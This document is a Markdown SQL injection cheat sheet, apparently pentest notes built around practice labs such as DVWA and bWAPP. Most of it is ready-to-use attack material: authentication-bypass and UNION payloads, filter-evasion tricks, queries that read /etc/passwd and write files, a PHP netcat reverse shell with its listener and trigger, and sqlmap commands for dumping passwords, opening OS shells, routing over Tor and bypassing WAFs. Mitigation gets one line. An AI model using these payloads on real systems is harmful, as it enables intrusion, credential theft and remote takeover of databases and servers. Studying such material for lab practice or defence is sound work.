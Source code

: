 # SQL Injection

## Types
- MySQL
  - Error Based
    - ```'``` & ```"``` & ```\``` & ```)``` & tilda
  - Blind 
    - Boolean
      - True: ```id=1" and 1=1--```
      - False: ```id=1" and 1=2--```
      - Other
        - ```id=1' and 1=1--+```
        - ```id=1' and 1=1#```  
    - Time Based
      - ```id=1' and sleep(5)--```
      - ```id=';waitfor delay '0:0:5'--```

## Payloads
```
a' or 1=1--
a'or'1'='1

a' or '1'='1
a' or '1'='1'--
a' or '1'='1'#
a' or '1'='1'%23
a' or 1=1%23
1 or 1=1
1 or 1=1 limit 2,1
a'%09or%09'1'='1
a'/**/or/**/'1'='1
2 or 1=1
2%0Aor 1=1
` desc %23
IF(0,name,age)
' or 1=1#
' or 1=1--
' or 1=1 LIMIT 1 #
2 union all select * from users
```

## Tips
- True statement: ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1```
- False statement: ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```
- Space: ```+``` & ```/**/``` & ```%20```
- Comment: ```/*``` & ```//``` & ```;//``` & ```#``` & ```%23```

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 

- Data Extracting 
  - Seleting database version, Database, user
    - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - Database tables 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables``` 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - Table Columns
    - ```... union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - Selecting data from table 
    - ```... union select 1,username,password,is_admin,5 from accounts``` 
  - Reading files
    - ```... union select null,load_file('/etc/passwd'),null,null,null``` 
  - Writing files
    - ```UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*``` 

- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin
    - ```nc -vv -l -p 8080```
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```

## Mitigation
- Use parametrized statements, separate data from sql code


## SQLMAP
- Usage
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title```
    - Define "title" as the test parameter (input string was passed as value of title) 
  - ``` sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title --dbs```
    - Get a list of databases present on the database server 
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP --tables``` 
    - Get a list of tables for database bWAPP
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users --columns``` 
    - Get the list of columns in the users table of bWAPP database
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump``` 
    - Dump password and email for admin from the users table. Press 'n' twice when prompted

- Burp & SQLMAP
  - Intercept request in Burp, Right-click on it and choose "Copy to file"
  - ```sqlmap -r request -p title```

- Switches
  - Tor
    - ```--tor```
  - Shell
    - ```sqlmap -u "..." --sql-shell```
    - ```sqlmap -u "..." --os-shell```
  - WAF Bypass 
    - ```--tamper=space2dash, hex2char --dbs```
    - Path: /usr/share/sqlmap/tamper 
